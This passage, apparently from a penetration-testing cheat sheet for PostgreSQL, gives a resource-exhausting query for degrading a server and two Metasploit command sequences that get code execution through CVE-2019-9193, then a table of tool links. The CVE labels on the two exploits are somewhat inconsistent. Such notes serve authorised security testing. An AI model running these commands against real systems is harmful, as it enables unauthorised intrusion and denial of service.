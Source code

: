 *   **Tool:** \[\[PSQL]]

    ```bash
    SELECT generate_series(1, 100000000);
    ```
* **Description:** Execute resource-intensive queries to consume server resources and degrade performance.

### Exploits

#### PostgreSQL Privilege Escalation (CVE-2019-9193)

*   **Tool:** \[\[Metasploit]]

    ```bash
    msfconsole
    use exploit/linux/postgres/postgres_payload
    set RHOSTS <target_ip>
    set RPORT 5432
    run
    ```
* **Description:** Exploits a vulnerability in PostgreSQL to escalate privileges and execute arbitrary code on the server.

#### CVE-2019-9193 - PostgreSQL Arbitrary Code Execution

* **Tool:** \[\[Metasploit]]

```bash
use exploit/linux/postgres/postgres_copy_from_program_cmd_exec
set RHOSTS <target_ip>
set RPORT 5432
set USERNAME postgres
set PASSWORD <password>
run
```

* **Description:** Exploits a vulnerability in PostgreSQL's `COPY FROM PROGRAM` functionality to execute arbitrary commands on the server.

## Resources

| **Website**                       | **URL**                                             |
| --------------------------------- | --------------------------------------------------- |
| PostgreSQL Official Documentation | https://www.postgresql.org/docs/                    |
| Nmap PostgreSQL Scan              | https://nmap.org/nsedoc/scripts/pgsql-brute.html    |
| pgAdmin Official Site             | https://www.pgadmin.org/                            |
| SQLMap Documentation              | http://sqlmap.org/                                  |
| Metasploit PostgreSQL Modules     | https://www.rapid7.com/db/modifications/postgresql/ |
| John the Ripper                   | https://www.openwall.com/john/                      |
| Hydra Tool Documentation          | https://github.com/vanhauser-thc/thc-hydra          |
| Wireshark User Guide              | https://www.wireshark.org/docs/wsug\_html\_chunked/ |
| Linux man-pages                   | https://man7.org/linux/man-pages/                   |
